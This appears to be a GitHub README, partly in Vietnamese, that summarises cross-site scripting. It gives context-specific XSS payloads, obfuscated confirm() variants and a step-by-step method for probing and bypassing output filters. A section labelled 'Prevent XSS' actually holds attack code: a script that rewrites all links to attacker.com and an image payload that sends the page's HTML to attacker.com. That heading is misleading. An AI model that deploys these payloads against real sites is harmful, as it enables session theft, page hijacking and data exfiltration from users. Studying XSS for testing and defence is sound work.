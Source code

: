 # Summary XSS


### Contents
- [Khái niệm XSS](https://github.com/chi442000/XSS#Concept)
- [Tấn công thực hiện như thế nào?](https://github.com/chi442000/XSS#realistic-attack)
- [Các loại tấn công XSS](https://github.com/chi442000/XSS#types-of-attacks)
    - [Reflected XSS](https://github.com/chi442000/XSS#reflected-xss)
    - [Stored XSS](https://github.com/chi442000/XSS#stored-xss)
    - [DOM Based XSS](https://github.com/chi442000/XSS#dom-based-xss)
- [Cách để kiểm thử tấn công XSS](https://github.com/chi442000/XSS#attack-testing)
- [Các cách để ngăn chặn XSS](https://github.com/chi442000/XSS#prevent)
- [Kết luận](https://github.com/chi442000/XSS#in-conclusion)


### Concept
- Cross Site Scripting (XSS) là một trong những tấn công phổ biến và dễ bị tấn công nhất mà tất cả các Tester có kinh nghiệm đều biết đến. Nó được coi là một trong những tấn công nguy hiểm nhất đối với các ứng dụng web và có thể mang lại những hậu quả nghiêm trọng. Giới thiệu về tấn công XSS Tấn công XSS là một đoạn mã độc, để khái thác một lỗ hổng XSS, hacker sẽ chèn mã độc thông qua các đoạn script để thực thi chúng ở phía Client. Thông thường, các cuộc tấn công XSS được sử dụng để vượt qua truy cập và mạo danh người dùng.
- Mục đích chính của cuộc tấn công này là ăn cắp dữ liệu nhận dạng của người dùng như: cookies, session tokens và các thông tin khác. Trong hầu hết các trường hợp, cuộc tấn công này đang được sử dụng để ăn cắp cookie của người khác. Như chúng ta biết, cookie giúp chúng tôi đăng nhập tự động. Do đó với cookie bị đánh cắp, chúng tôi có thể đăng nhập bằng các thông tin nhận dạng khác. Và đây là một trong những lý do, tại sao cuộc tấn công này được coi là một trong những cuộc tấn công nguy hiểm nhất.
- Tấn công XSS đang được thực hiện ở phía client. Nó có thể được thực hiện với các ngôn ngữ lập trình phía client khác nhau. Tuy nhiên, thường xuyên nhất cuộc tấn công này được thực hiện với Javascript và HTML.


### Realistic Attack
Tấn công Cross Site Scripting nghĩa là gửi và chèn lệnh và script độc hại, những mã độc này thường được viết với ngôn ngữ lập trình phía client như Javascript, HTML, VBScript, Flash… Tuy nhiên, cách tấn công này thông thường sử dụng Javascript và HTML. Cách tấn công này có thể được thực hiện theo nhiều cách khác nhau, phụ thuộc vào loại tấn công XSS, những mã độc có thể được phản chiếu trên trình duyệt của nạn nhân hoặc được lưu trữ trong cơ sở dữ liệu và được chạy mỗi khi người dùng gọi chức năng thích hợp. Nguyên nhân chính của loại tấn công này là xác thực đầu vào dữ liệu người dùng không phù hợp, dữ liệu độc hại từ đầu vào có thể xâm nhập vào dữ liệu đầu ra. Mã độc có thể nhập một script và được chèn vào mã nguồn của website. Khi đó trình duyệt không thể biết mã thực thi có phải độc hại hay không. Do đó mã độc hại có thể đang được thực thi trên trình duyệt của nạn nhận hoặc bất kỳ hình thức giả nào đang được hiển thị cho người sử dụng. Có một số hình thức tấn công XSS có thể xảy ra. Bên dưới là những hình thức tấn công chính của Cross Site Scripting:
- Cross Site Scripting có thể xảy ra trên tập lệnh độc hại được thực hiện ở phía client.
- Trang web hoặc form giả mạo được hiển thị cho người dùng (nơi nạn nhân nhập thông tin đăng nhập hoặc nhấp vào liên kết độc hại).
- Trên các trang web có quảng cáo được hiển thị.
- Email độc hại được gửi đến nạn nhân. Tấn công xảy ra khi tin tặc tìm kiếm những lỗ hổng trên website và gửi nó làm đầu vào độc hại. Tập lệnh độc hại được tiêm vào mã lệnh và sau đó được gửi dưới dạng đầu ra cho người dùng cuối cùng.


### Types of Attacks

#### Reflected XSS
Case: `<tag>You searched for $input. </tag>`

```
<svg onload=alert()>
</tag><svg onload=alert()>
```

#### Stored XSS

Case: `<tag attribute="$input">`

```
"><svg onload=alert()>
"><svg onload=alert()><b attr="
" onmouseover=alert() "
"onmouseover=alert()//
"autofocus/onfocus="alert()
```
#### DOM Based XSS
Case: `<script> var new something = '$input'; </script>`

```
'-alert()-'
'-alert()//'
'}alert(1);{'
'}%0Aalert(1);%0A{'
</script><svg onload=alert()>
```

### Attack Testing
Yep, confirm because alert is too mainstream.
```
confirm()
confirm``
(confirm``)
{confirm``}
[confirm``]
(((confirm)))``
co\u006efirm()
new class extends confirm``{}
[8].find(confirm)
[8].map(confirm)
[8].some(confirm)
[8].every(confirm)
[8].filter(confirm)
[8].findIndex(confirm)
```

### Prevent XSS
##### Replace all links
```javascript
Array.from(document.getElementsByTagName("a")).forEach(function(i) {
  i.href = "https://attacker.com";
});
```
##### Source Code Stealer
```html
<svg/onload="(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML">
```
A good compilation of advanced XSS exploits can be found [here](http://www.xss-payloads.com/payloads-list.html?a#category=all)

###  In conclusion
If nothing of this works, take a look at **Awesome Bypassing** section

First of all, enter a non-malicious string like **d3v** and look at the source code to get an idea about number and contexts of reflections.
<br>Now for attribute context, check if double quotes (") are being filtered by entering `x"d3v`. If it gets altered to `x&quot;d3v`, chances are that output is getting properly escaped. If this happens, try doing the same for single quotes (') by entering `x'd3v`, if it gets altered to `x&apos;`, you are doomed. The only thing you can try is encoding.<br>
If the quotes are not being filtered, you can simply try payloads from **Awesome Context Breaking** section.
<br>For javascript context, check which quotes are being used for example if they are doing
```
variable = 'value' or variable = "value"
```
Now lets say single quotes (') are in use, in that case enter `x'd3v`. If it gets altered to `x\'d3v`, try escaping the backslash (\) by adding a backslash to your probe i.e. `x\'d3v`. If it works use the following payload:
```
\'-alert()//
```
But if it gets altered to `x\\\'d3v`, the only thing you can try is closing the script tag itself by using
```
</script><svg onload=alert()>
```
For simple HTML context, the probe is `x<d3v`. If it gets altered to `x&gt;d3v`, proper sanitization is in place. If it gets reflected as it as, you can enter a dummy tag to check for potential filters. The dummy tag I like to use is `x<xxx>`. If it gets stripped or altered in any way, it means the filter is looking for a pair of `<` and `>`. It can simply bypassed using
```
<svg onload=alert()//
```
or this (it will not work in all cases)
```
<svg onload=alert()
```
If the your dummy tags lands in the source code as it is, go for any of these payloads
```
<svg onload=alert()>
<embed src=//14.rs>
<details open ontoggle=alert()>
```

